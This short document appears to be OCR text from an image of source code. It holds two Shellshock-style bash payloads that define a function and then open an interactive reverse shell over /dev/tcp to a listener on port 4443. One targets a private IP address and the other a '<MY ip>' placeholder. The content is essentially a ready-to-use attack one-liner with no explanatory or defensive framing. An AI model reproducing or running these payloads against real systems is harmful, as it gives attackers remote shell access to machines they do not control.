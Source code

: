 payload() { :;}; /bin/bash -c  '/bin/bash -i' >& /dev/tcp/192.168.0.182/4443 0>&1 &

#########################################################################################

payload() { :;}; /bin/bash -c  '/bin/bash -i' >& /dev/tcp/  <MY ip> /4443 0>&1 &
